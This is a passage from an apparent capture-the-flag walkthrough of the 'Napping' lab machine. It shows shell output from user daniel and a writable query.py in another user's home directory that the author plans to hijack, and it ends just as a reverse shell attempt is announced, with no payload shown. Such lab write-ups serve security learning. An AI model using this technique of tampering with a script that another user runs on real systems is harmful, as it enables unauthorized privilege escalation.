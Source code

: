 ```

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

336 updates can be applied immediately.
261 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Mar  1 16:00:05 2024
daniel@napping:~$ 
```
- after checking the home directory I found a folder named adrian so a quick check up
```
daniel@napping:/home/adrian$ ls -al
total 40
drwxr-xr-x 3 adrian adrian          4096 Feb 23 08:16 .
drwxr-xr-x 4 root   root            4096 Oct 12  2021 ..
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian          4096 Oct 11  2021 .cache
lrwxrwxrwx 1 adrian adrian             9 Oct 12  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 adrian adrian             0 Feb 25  2020 .profile
-rw-rw-r-- 1 adrian adrian            75 Oct 11  2021 .selected_editor
-rw-r--r-- 1 adrian adrian             0 Oct 11  2021 .sudo_as_admin_successful
-rw------- 1 adrian adrian             0 Oct 30  2021 .viminfo
-rw-rw-r-- 1 adrian administrators   540 Mar  1 16:05 query.py
-rw-rw-r-- 1 adrian adrian         15200 Mar 20 07:00 site_status.txt
-rw------- 1 adrian adrian            22 Oct 12  2021 user.txt
```
- `query.py` is an interesting finding as it appears that we can access it and even modify it

```daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
## Reverse connection
- Now that we know that this file is executed with adrian priviledge we will attempt a reverse shell